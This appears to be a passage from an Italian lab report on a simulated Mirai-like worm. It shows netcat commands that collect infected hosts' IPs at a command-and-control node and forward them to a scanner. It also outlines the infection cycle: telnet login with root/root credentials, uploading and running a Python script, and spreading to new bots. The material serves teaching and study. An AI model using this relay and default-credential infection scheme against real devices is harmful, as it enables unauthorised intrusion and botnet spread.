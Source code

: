 \begin{lstlisting}[language=Python]
nc -l -k -p 1025 >> vulnerableIP.txt
\end{lstlisting}

Che riceve in input l'indirizzo IP infettato, inviato dallo stesso nodo infetto e lo salva sul file $vulnerableIP.txt$

\begin{lstlisting}[language=Python]
tail -F vulnerableIP.txt | nc -w 2 172.16.0.4 4999
\end{lstlisting}

Che si occupa di inviare, ad ogni nuovo aggiornamento del file $vulnerableIP.txt$, il nuovo IP allo scanner alla porta 4999 in ascolto.

\section{Esecuzione dell'attacco}
L'attacco funziona in questo modo: 
\begin{enumerate}
    \item Lo scanner tenta il login con le credenziali root-root
    \item Il login è riuscito: viene inviato, da parte del bot, il proprio IP al CnC.
    \item Il CnC invia l'indirizzo IP del bot da attaccare 
    \item Lo scanner effettua il login, carica lo script python $pyscript.py$ e lo esegue, tramite telnet.
    \item Lo script, piuttosto che lo scanner, cerca nuovi bot, come da punto 1
    \item Trovato un bot vulnerabile, invia l'IP del nuovo bot, tramite il bot infetto, al CnC
    \item Il CnC invia l'IP della macchina vulnerabile allo scanner
\end{enumerate}

